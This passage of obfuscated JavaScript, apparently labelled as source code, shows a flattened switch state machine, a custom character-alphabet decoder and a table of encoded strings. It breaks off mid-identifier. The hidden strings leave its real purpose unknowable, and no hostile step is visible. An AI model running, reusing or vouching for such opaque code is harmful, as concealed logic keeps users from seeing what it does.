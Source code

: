 0x9d:X1d1C0(OSGpjiT.push((Tef2vHf|WWFdUB<<RTF7iOB)&EQue_F_[z9bIRt1+-0xa]),kw9mRt.JPELOmU=kw9mRt.MtAGDin,j4Cv2E+=0x7,OSWTvMx+=-0xac);break;default:kw9mRt.MtAGDin.WWFdUB=-EQue_F_[z9bIRt1+0x1c];for(kw9mRt.MtAGDin.OFk4O0R=EQue_F_[z9bIRt1+0x1a];OFk4O0R<ykemuxH;OFk4O0R++){kw9mRt.MtAGDin.wmRpN0=qi4bUJ.indexOf(ONl5Zb[OFk4O0R]);if(wmRpN0===-EQue_F_[z9bIRt1+0x1c])continue;if(WWFdUB<EQue_F_[0x1]){WWFdUB=wmRpN0}else{X1d1C0(WWFdUB+=wmRpN0*EQue_F_[0x16],Tef2vHf|=WWFdUB<<RTF7iOB,RTF7iOB+=(WWFdUB&EQue_F_[z9bIRt1+0x45])>EQue_F_[0x15]?EQue_F_[z9bIRt1+0x2b]:EQue_F_[0x13]);do{X1d1C0(OSGpjiT.push(Tef2vHf&EQue_F_[0x10]),Tef2vHf>>=EQue_F_[j4Cv2E+0x104],RTF7iOB-=EQue_F_[0xa])}while(RTF7iOB>EQue_F_[j4Cv2E+0x10b]);WWFdUB=-EQue_F_[0x3]}}if(WWFdUB>-EQue_F_[0x3]){X1d1C0(kw9mRt.JPELOmU=kw9mRt.MtAGDin,z9bIRt1+=0x33,OSWTvMx+=0x65);break}else{X1d1C0(kw9mRt.JPELOmU=kw9mRt.MtAGDin,z9bIRt1+=0x33,j4Cv2E+=0x7,OSWTvMx+=-0x47);break}case 0xe6:case z9bIRt1!=-0x6b&&z9bIRt1- -0x160:X1d1C0(kw9mRt.JPELOmU=kw9mRt.MtAGDin,z9bIRt1+=0x1a2,j4Cv2E+=-0x2ca,OSWTvMx+=0x1ed);break;case j4Cv2E- -0xeb:return M0wfVq=!0x0,E6gR0LB(OSGpjiT);case j4Cv2E-0xdb:case-0x70:X1d1C0(kw9mRt.JPELOmU=kw9mRt.MtAGDin,z9bIRt1+=0x85,j4Cv2E+=-0x2c3,OSWTvMx+=0x141);break;case-0xec:X1d1C0(kw9mRt.MtAGDin.OSGpjiT=[],kw9mRt.MtAGDin.Tef2vHf=EQue_F_[j4Cv2E+0xfb],kw9mRt.MtAGDin.RTF7iOB=EQue_F_[0x1],kw9mRt.JPELOmU=kw9mRt.MtAGDin,OSWTvMx+=0xf1);break;case kw9mRt.MtAGDin.XVD7lK+0x16:X1d1C0(kw9mRt.JPELOmU=kw9mRt.MtAGDin,z9bIRt1+=-0x14e,j4Cv2E+=-0x14,OSWTvMx+=0x245);break;case OSWTvMx- -0xc5:case-0x3e:X1d1C0(kw9mRt.MtAGDin.XVD7lK=-0x5c,MtAGDin.qi4bUJ=\"\\u007a\\u006e\\u004c\\u0071\\u0066\\u006d\\u0041\\u0048\\u0057\\u0068\\u004d\\u006f\\u004f\\u0055\\u0073\\u0065\\u0046\\u0049\\u006c\\u0051\\u0063\\u0067\\u0072\\u004e\\u0042\\u0031\\u0023\\u004b\\u0061\\u002a\\u0059\\u004a\\u0074\\u0056\\u0052\\u0050\\u0039\\u0079\\u0045\\u0030\\u0062\\u0078\\u003f\\u0044\\u0075\\u0069\\u0064\\u002c\\u006a\\u0047\\u0060\\u0054\\u0070\\u0043\\u006b\\u0058\\u005d\\u005a\\u0053\\u0025\\u0076\\u0040\\u0024\\u0037\\u003b\\u007d\\u0021\\u003c\\u0035\\u0038\\u0032\\u0077\\u007e\\u003a\\u003e\\u002e\\u0026\\u005e\\u0028\\u0033\\u0029\\u003d\\u005f\\u005b\\u0034\\u0022\\u0036\\u007b\\u007c\\u002b\\u002f\",MtAGDin.ONl5Zb=\"\"+(kTFw4wc||\"\"),MtAGDin.ykemuxH=MtAGDin.ONl5Zb.length,kw9mRt.JPELOmU=kw9mRt.MtAGDin,z9bIRt1+=-0xa7,j4Cv2E+=-0x131,OSWTvMx+=0x93);break;case z9bIRt1-0x16d:X1d1C0(kw9mRt.MtAGDin.XVD7lK=0xd6,kw9mRt.JPELOmU=kw9mRt.MtAGDin,z9bIRt1+=-0x11c,j4Cv2E+=-0x7,OSWTvMx+=0xa1);break;case kw9mRt.MtAGDin.XVD7lK+-0x33:X1d1C0(kw9mRt.JPELOmU=kw9mRt.MtAGDin,z9bIRt1+=0x16f,j4Cv2E+=-0x7d,OSWTvMx+=-0x14f);break}}X1d1C0(M0wfVq=void 0x0,z9bIRt1=j4Cv2E(0x8e,0x37,-0x6c).next().value);if(M0wfVq){return z9bIRt1}}function hMhb5SB(j4Cv2E){if(typeof M0wfVq[j4Cv2E]===kTFw4wc(EQue_F_[0x1])){return M0wfVq[j4Cv2E]=Xi7TFO(z9bIRt1[j4Cv2E])}return M0wfVq[j4Cv2E]}X1d1C0(M0wfVq={},z9bIRt1=[kTFw4wc(EQue_F_[0x3]),kTFw4wc(EQue_F_[0x6]),kTFw4wc(EQue_F_[0x9]),kTFw4wc(EQue_F_[0xc]),\"\\x72\\x77\\x66\\x4d\\x49\\x77\\x4f\\x57\\x7d\\x5a\\x7e\\x31\\x57\\x65\\x51\\x62\\x36\\x52\\x55\\x3e\\x25\\x32\\x2e\\x48\\x3e\\x73\\x4f\\x4d\\x7c\\x65\\x41\\x6c\\x26\\x7d\\x40\\x70\\x63\\x62\\x3e\\x3e\\x28\\x6c\\x52\\x7e\\x77\\x65\\x41\",kTFw4wc(EQue_F_[0xab]),kTFw4wc(EQue_F_[0x8]),kTFw4wc(EQue_F_[0x11]),kTFw4wc(EQue_F_[0xa]),kTFw4wc(EQue_F_[0x37]),kTFw4wc(EQue_F_[0xa0]),kTFw4wc(0xb),kTFw4wc(EQue_F_[0x23]),kTFw4wc(EQue_F_[0x12]),kTFw4wc(EQue_F_[0x13]),\"\\x35\\x4a\\x59\\x48\\x49\\x5a\\x2b\\x50\\x30\\x3b\\x59\\x53\\x76\\x71\\x7c\\x78\\x2c\\x54\\x28\\x68\\x36\\x77\\x4e\\x2c\\x7c\\x55\\x59\\x7d\\x71\\x5f\\x6e\\x4a\\x31\\x7d\\x45\\x61\\x29\\x39\\x44\\x55\\x62\\x53\\x73\\x7e\\x61\\x25\\x25\\x3f\\x7d\\x35\\x67\\x70\\x5e\\x6a\\x76\\x4c\",kTFw4wc(EQue_F_[0x14]),kTFw4wc(EQue_F_[0xb]),kTFw4wc(0x11),kTFw4wc(EQue_F_[0x25]),kTFw4wc(0x13),\"\\x7c\\x41\\x77\\x26\\x4b\\x77\\x74\\x39\\x78\\x73\\x3a\\x2a\\x54\\x73\\x62\\x45\\x71\\x47\\x3e\\x2a\\x6f\\x6a\\x45\\x39\\x30\\x3b\\x3c\\x6f\\x46\\x71\\x42\\x50\\x7a\\x5a\\x33\\x47\\x67\\x22\\x77\\x54\\x43\\x51\\x74\\x33\\x53\\x45\\x45\\x79\\x3b\\x25\\x23\\x4b\\x32\\x52\\x58\\x50\\x66\",kTFw4wc(0x14),kTFw4wc(EQue_F_[0xfb]),kTFw4wc(0x16),kTFw4wc(EQue_F_[0x9e]),kTFw4wc(EQue_F_[0xf0]),kTFw4wc(EQue_F_[0x160]),kTFw4wc(0x1a),kTFw4wc(0x1b),kTFw4wc(EQue_F_[0xfa]),kTFw4wc(0x1d),kTFw4wc(0x1e),kTFw4w